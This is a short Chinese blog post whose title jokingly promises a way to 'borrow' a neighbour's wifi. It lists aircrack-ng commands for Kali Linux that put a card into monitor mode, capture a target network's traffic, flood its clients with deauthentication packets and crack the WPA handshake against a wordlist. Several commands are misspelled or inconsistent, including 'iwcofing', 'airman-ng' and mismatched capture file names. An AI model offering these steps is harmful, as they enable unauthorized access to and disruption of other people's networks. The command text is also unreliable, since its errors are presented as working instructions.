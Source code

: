 ```yaml
---
layout:     post
title:      借用隔壁老王wifi攻略
category:   tag
description: 借用隔壁老王wifi攻略
---
```

这篇文章如题，详细的内容不描述。

System : Kali Linux
Tool airmon-ng , 可以探针wifi

1.检测wifi 的存在
<pre class="prettyprint">
iwcofing
</pre>

2.Check kill
<pre class="prettyprint">
airman-ng check kill
</pre>

3.查看无线网卡
<pre class="prettyprint">
airmon -ng
</pre>

4.开启无线网卡 
<pre class="prettyprint">
airmon -ng  start wlan0mon
</pre>

5.查找无线网络
<pre class="prettyprint">
airodump-ng wlan0mon
</pre>

6. 网络抓包
<pre class="prettyprint">
airodump-ng -w vutfile -c 1 —bssid MacAddress wlan0mon
</pre>

7. ARP 发包
<pre class="prettyprint">
aireplay-ng -0 0 -a MacAddress wlan0mon
</pre>

8. 暴力破解
<pre class="prettyprint">
aircrack-ng outfile1.cap -w /your_world_list_path
</pre>